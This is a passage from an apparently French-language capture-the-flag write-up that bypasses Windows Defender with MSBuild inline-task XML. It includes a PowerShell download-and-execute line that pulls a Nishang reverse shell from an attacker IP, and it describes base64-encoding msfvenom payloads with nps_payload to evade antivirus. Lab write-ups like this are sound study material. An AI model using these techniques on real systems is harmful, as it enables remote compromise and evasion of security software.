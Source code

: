 ```plain
    0 Warning(s)
    1 Error(s)

Time Elapsed 00:00:02.90
```

Cette fois c'est *Windows Defender* qui fait des siennes...  

Une solution est de prendre un template XML qui ne contient pas de shellcodes mais va simplement exécuter du code Powerwhell. On peut se baser [sur celui-ci](https://github.com/3gstudent/msbuild-inline-task/blob/master/executes%20PowerShellCommands.xml) qui ne fonctionnera pas tel quel dans notre interface web (car elle ne retransférera pas les commandes saisies vers le process) mais on peut l'éditer simplement pour retirer la boucle dans *Execute()* et mettre à la ligne suivante pour obtenir [notre reverse shell Nishang](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) :  

```plain
RunPSCommand("IEX (New-Object System.Net.WebClient).downloadString('http://10.10.13.82/Invoke-PowerShellTcp.ps1')");
```

Avec le shell ainsi obtenu on peut charger d'autres scripts PowerShell bien connus (*Sherlock*, *PowerUp*...)  

Durant l'exploration du système j'ai croisé un bon gros troll des familles placé par le créateur de la machine :  

```plain
PS C:\> Get-UnattendedInstallFile

UnattendPath
------------
C:\Windows\Panther\Unattend.xml

PS C:\> type C:\Windows\Panther\Unattend.xml
Try Harder! ( =
```

Hack The Planet
---------------

Ok c'est bien mais profiter de tous les modules de *Metasploit* c'est mieux. Je me suis penché sur d'autres solutions pour bypasser *Defender* et je suis tombé sur [un très bon article de n00py](https://www.n00py.io/2018/06/executing-meterpreter-in-memory-on-windows-10-and-bypassing-antivirus-part-2/), en particulier la partie faisant référence au fork de *nps\_payload* par *Franci Šacer*.  

L'avantage de ce fork c'est l'option 2 qui prend le code C# généré par *msfvenom* pour l'encoder en base64 et le placer dans le fichier XML.  

Lors de l'appel par MSBuild la chaine base64 est décodée, le code C# compilé puis exécuté à la volée. C'est beau !  

```plain
$ python nps_payload.py

                                     (            (
                              ) (    )\        )  )\ )
  (    `  )  (       `  )  ( /( )\ )((_)(   ( /( (()/(
  )\ ) /(/(  )\      /(/(  )(_)|()/( _  )\  )(_)) ((_)
 _(_/(((_)_\((_)    ((_)_\((_)_ )(_)) |((_)((_)_  _| |
| ' \)) '_ \|_-<    | '_ \) _` | || | / _ \/ _` / _` |
|_||_|| .__//__/____| .__/\__,_|\_, |_\___/\__,_\__,_|
      |_|     |_____|_|         |__/

                       v1.04

    (1) Generate msbuild/nps/msf payload
    (2) Generate msbuild/nps/msf CSharp payload
    (3) Generate msbuild/nps/msf HTA payload
```